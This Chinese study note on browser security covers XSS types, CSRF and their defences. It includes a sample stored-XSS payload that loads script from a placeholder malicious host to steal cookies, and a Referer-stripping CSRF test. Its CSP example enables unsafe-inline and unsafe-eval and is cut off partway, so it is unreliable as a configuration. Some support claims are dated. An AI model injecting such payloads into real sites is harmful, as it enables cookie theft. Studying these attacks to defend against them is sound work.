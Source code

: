 ```yaml
---
title: 浏览器安全
date: 2024-01-14
tags:
 - 前端
 - 浏览器
 - 思维导图
categories: 
 - 浏览器
---
```


## 思维导图
![图片](../../../.vuepress/public/mindMap/browserSecurity.png)

## XSS 跨站脚本攻击（Cross Site Scripting）

在网站中植入恶意代码并执行来实现对网站的攻击。

### 存储型XSS攻击

利用漏洞提交恶意 JavaScript 代码，比如在input, textarea等所有可能输入文本信息的区域，输入`<script src="http://恶意网站"></script>`等，提交后信息会存在服务器中，当用户再次打开网站请求到相应的数据，打开页面，恶意脚本执行，将用户的 Cookie 信息等数据上传到黑客服务器。

提交的包含了恶意代码的内容被存储在服务器上了，即XSS代码被持久化。

### 反射型XSS攻击

用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。 比如搜索时发起的请求包含了恶意代码；或者黑客通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接，点击链接时服务器发起请求，恶意代码被反射回来执行。

非持久化，代码被隐藏在链接里，欺骗用户自己去点击链接的时候触发XSS代码。反射型攻击不在服务器存储恶意脚本，这与存储型攻击不同。

### 基于DOM的XSS攻击

基于 DOM 的 XSS 攻击是**不牵涉到页面 Web 服务器**的，这与前面两种攻击不同，它绕过WAF、躲避服务端的检测来对网站进行攻击。

它通过构造恶意URL或者修改页面中DOM元素，把恶意脚本注入到网站的DOM中，和反射型攻击有点像，不过它不会涉及服务器。

比如利用工具(如Burpsuite)扫描目标网站所有的网页并自动测试写好的注入脚本等。

### 防范

- 对提交内容的**非法标签和属性**进行校验并**过滤**，例如`<script>`、onclick等，可以用正则表达式来过滤

- 转义单引号，双引号，尖括号等特殊字符，可以采用htmlencode编码 或者过滤掉这些特殊字符
- 将cookie等敏感信息设置为httponly，禁止Javascript通过`document.cookie`获得
- **CSP**（Content Security Policy）内容安全策略。主要以**白名单**的形式配置可信任的内容来源，在网页中，能够使白名单中的内容正常执行（包含 JS，CSS，Image 等等），而非白名单的内容无法正常执行，从而减少跨站脚本攻击（XSS），当然，也能够减少运营商劫持的内容注入攻击。 配置方式：
  
  

```js
//1、meta
 
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
 
//2、Http 头部
 
Content-Security-Policy:
script-src 'unsafe-inline' 'unsafe-eval' 'self' *.54php.cn *.yunetidc.com *.baidu.com *.cnzz.com *.du
```

## CSRF跨站请求伪造（Cross-site request forgery）

利用网站的请求，让用户在访问网站的时候，进行的操作被执行到其他网站上。可以以用户的名义（拿到用户的权限）去发起一些合法请求来完成某些操作。

### 发起CSRF的三个必要条件

- 目标站点存在CSRF漏洞
- 用户登录过目标站点，且在浏览器上保持有该站点的登录状态
- 需要用户打开一个第三方站点（如黑客的站点）

### get型攻击

通过模拟get请求，向目标网站发起攻击。

### post型攻击

通过模拟post请求，如发起表单提交，向目标网站发起攻击。

### CSRF漏洞测试

检测CSRF漏洞是一项比较繁琐的工作，最简单的方法就是抓取一个正常请求的数据包，**去掉Referer字段后再重新提交**，如果该提交还有效，那么基本上可以确定存在CSRF漏洞。

> HTTP Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用于处理。

**CSRFTester**，**CSRF Request Builder**等是专门针对CSRF漏洞进行检测的工具。

以CSRFTester工具为例，CSRF漏洞检测工具的测试原理如下：使用CSRFTester进行测试时，首先需要抓取我们在浏览器中访问过的所有链接以及所有的表单等信息，然后通过在CSRFTester中修改相应的表单等信息，重新提交，这相当于一次**伪造客户端请求**。如果修改后的测试请求成功被网站服务器接受，则说明存在CSRF漏洞，当然此款工具也可以被用来进行CSRF攻击。

### 防范

**CSRF 通常从第三方网站发起，被攻击的网站无法防止攻击发生**，只能通过增强自己网站针对 CSRF 的防护能力来提升安全性。

上文中讲了 CSRF 的两个特点：

1. CSRF（通常）**发生在第三方域名**。
2. CSRF 攻击者不能获取到 Cookie 等信息，**只是使用**。

针对以上特点，CSRF 可制定以下两种防御策略：

- **自动防御：阻止不明外域的访问**

- - 同源检测
  - Samesite Cookie

- **主动防御：提交时要求附加本域才能获取的信息**

- - Synchrogazer Tokens
  - Double Cookie Defense
  - Custom Header

自动防御即利用 HTTP 协议固有的特性进行自动防护，而主动防御则需要通过编程手段进行防御。

#### 自动防御

##### 同源验证

因为CSRF的攻击很多是第三方网站发起的请求，所以可以直接禁止外域/不信任的域对自己的网站发起请求

在 HTTP 协议中，每一个异步请求都会携带两个Header，用于标记来源域名：

* Origin Header
* Referer Header

通过验证这两个Header是否受信任实现同源检测。  

优点：使用方便，开发简单，一定程度上能预防CSRF攻击；

缺点：这种机制完全依托于浏览器，Referer字段容易被故意篡改，或者被禁用。

##### **Samesite Cookie**

**为 Set-Cookie 响应头新增 Samesite 属性**，它用来标明这个 cookie 是个“同站 cookie”，同站 cookie 只能作为第一方 cookie，不能作为第三方 cookie。

SameSite 有两个属性值，分别是 Strict 和 Lax。

- Samesite=Strict：严格模式，表明这个 cookie 在任何情况下都不可能作为第三方 cookie，绝无例外。
- Samesite=Lax：宽松模式，比 Strict 放宽了点限制。假如这个请求是同步请求（改变了当前页面或者打开了新页面）且同时是个 GET 请求，则这个 cookie 可以作为第三方 cookie。

但 Samesite Cookie 也存在着一些问题：

1. Samesite 的兼容性不是很好，现阶段除了从新版 Chrome 和 Firefox 支持以外，Safari 以及 iOS Safari 都还不支持，现阶段看来暂时还不能普及。
2. 而且，SamesiteCookie 目前有一个致命的缺陷，**不支持子域**。例如，种在 [http://blog.ursb.me](https://link.zhihu.com/?target=http%3A//blog.ursb.me) 下的 Cookie，并不能使用 [http://ursb.me](https://link.zhihu.com/?target=http%3A//ursb.me) 下种植的 SamesiteCookie。这就导致了当我们网站有多个子域名时，不能使用SamesiteCookie 在主域名存储用户登录信息。每个子域名都需要用户重新登录一次。这是不实际的。

#### **主动防御**

CSRF 主动防御措施有以下三种：

1. **Synchronizer Tokens**：**同步表单的 CSRF 校验**，通过响应页面时将 token 渲染到页面上，在 form 表单提交的时候通过隐藏域提交上来。
2. **Double Cookie Defense**：**双重验证Cookie**，将 token 设置在 Cookie 中，在提交 POST 请求的时候提交 Cookie，并通过 header 或者 body 带上 Cookie 中的 token，服务端进行对比校验。
3. **Custom Header**：信任带有特定的 header（例如 `X-Requested-With: XMLHttpRequest`）的请求。这个方案可以被绕过，所以 rails 和 django 等框架都放弃了该防范方式。


